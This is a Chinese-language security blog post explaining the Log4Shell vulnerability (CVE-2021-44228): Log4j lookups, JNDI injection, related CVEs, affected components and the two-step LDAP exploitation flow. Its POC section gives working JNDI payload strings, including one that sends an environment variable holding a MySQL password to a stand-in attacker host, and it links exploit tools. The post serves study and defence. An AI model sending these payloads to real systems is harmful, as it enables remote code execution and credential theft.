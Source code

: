+++
title = 'Log4Shell 漏洞'
date = 2024-05-31T16:04:27+08:00
draft = false
categories = ['漏洞研究']
tags = ['漏洞原理', 'Java', 'Log4j','框架漏洞']

# SEO 相关元数据
keywords = ["Log4Shell", "CVE-2021-44228", "Log4j漏洞", "JNDI注入", "远程代码执行", "Apache Log4j", "Java安全", "漏洞利用", "安全研究", "网络安全"]
summary = "深入分析 Log4Shell（CVE-2021-44228）漏洞的原理、影响范围和利用方式。详细介绍 Log4j 中 JNDI 注入机制、漏洞触发条件、POC/EXP 构造方法以及相关的安全防护措施。"

# 开放图谱协议 (Open Graph)
[params]
  og_title = "Log4Shell 漏洞 - Iselt Hack Tips"
  og_description = "全面解析 Log4Shell 漏洞的技术细节，包含 JNDI 注入原理、漏洞利用方法和防护建议，适合安全研究人员和开发者学习。"
  og_type = "article"
+++

## 前置知识

|术语|描述|
|---|---|
|Log4j|存在漏洞的 Java 库|
|JndiLookup|Log4j 中的漏洞部分|
|Log4Shell|为攻击此漏洞而开发的 exploit|

### Lookup

Lookups 为在 Log4j 配置的任意位置添加值提供了一种方法。它们是实现 StrLookup 接口的一种特殊插件类型。

> [Log4j - Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)
>
> [Log4j2 研究之lookup](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247485584&idx=1&sn=2fad11942986807ea7545f7b8b5d6af8)

### JNDI

JNDI(Java Naming and Directory Interface,Java命名和目录接口)是SUN公司提供的一种标准的Java命名系统接口，JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。目录服务是命名服务的一种自然扩展。

JNDI(Java Naming and Directory Interface)是一个应用程序设计的API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，类似JDBC都是构建在抽象层上。现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。

JNDI可访问的现有的目录及服务有：
DNS、XNam 、Novell目录服务、LDAP(Lightweight Directory Access Protocol轻型目录访问协议)、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、RMI、DSML v1&v2、NIS。

> [Java安全之JNDI注入](https://www.cnblogs.com/nice0e3/p/13958047.html)
>
> [JNDI到底是什么？](https://blog.csdn.net/wn084/article/details/80729230)
>
> [深入理解JNDI注入与Java反序列化漏洞利用](https://kingx.me/Exploit-Java-Deserialization-with-RMI.html)

### 相关 CVE

| CVE编号 | 漏洞类型 | 受影响的Log4j版本 | 默认配置下可被利用 |
| --- | --- | --- | --- |
| CVE-2021-44228 | 远程代码执行(RCE) | 2.0至2.14.1 | 是 |
| CVE-2021-45046 | 拒绝服务(DoS)和远程代码执行(RCE) | 2.0至2.15.0 | 否 |
| CVE-2021-4104 | 远程代码执行(RCE) | 1.2* | 否 |
| CVE-2021-45105 | 拒绝服务(DoS) | 2.0-beta9至2.16.0 | 否 |
| CVE-2021-44832 | 远程代码执行(RCE) | 2.0-beta7至2.17.0（不包括安全修复版本2.3.2和2.12.4） | 否 |

> <https://github.com/pentesterland/Log4Shell>

## 远程命令执行漏洞 CVE-2021-44228（Log4Shell）

### 受影响版本

- Apache Log4j 2.x<=2.14.1

### 受影响组件

- Spring-Boot-strater-log4j2
- Apache Struts2
- Apache Solr
- Apache Flink
- Apache Druid
- ElasticSearch
- Flume
- Dubbo
- Redis
- Logstash
- Kafka
- VMvare

### 漏洞说明

> [史上最全 log4j2 远程命令执行漏洞汇总报告](https://cloud.tencent.com/developer/article/1919456)

日志在打印时当遇到 `${` 后，Interpolator 类以 `:` 号作为分割，将表达式内容分割成两部分，前面部分作为 prefix，后面部分作为 key。然后通过 prefix 去找对应的 lookup，通过对应的 lookup 实例调用 lookup 方法，最后将 key 作为参数带入执行。

主要使用 ldap 来构造 payload：

```txt
${jndi:ldap://xxx.xxx.xxx.xxx/exp}
```

最终效果就是通过 jndi 注入，借助 ldap 服务来下载执行恶意 payload，从而执行命令，整个利用流程如图：

![20240531153822](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240531153822.png)

整个利用流程分两步：

第一步：向目标发送指定 payload，目标对 payload 进行解析执行，然后会通过 ldap 链接远程服务，当 ldap 服务收到请求之后，将请求进行重定向到恶意 java class 的地址。

第二步：目标服务器收到重定向请求之后，下载恶意 class 并执行其中的代码，从而执行系统命令。

### POC

DNSLog

```txt
${jndi:ldap://xxx.dnslog.cn/exp}
```

嵌套语法获取环境变量

```txt
${jndi:ldap://www.attacker.com:1389/${env:MYSQL_PASSWORD}}
```

### EXP

- Burpsuite 插件：[Log4Shell Everywhere](https://portswigger.net/bappstore/186be35f6e0d418eb1f6ecf1cc66a74d)
- [Apache Log4j Remote Code Execution](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

### 流量特征

见 POC
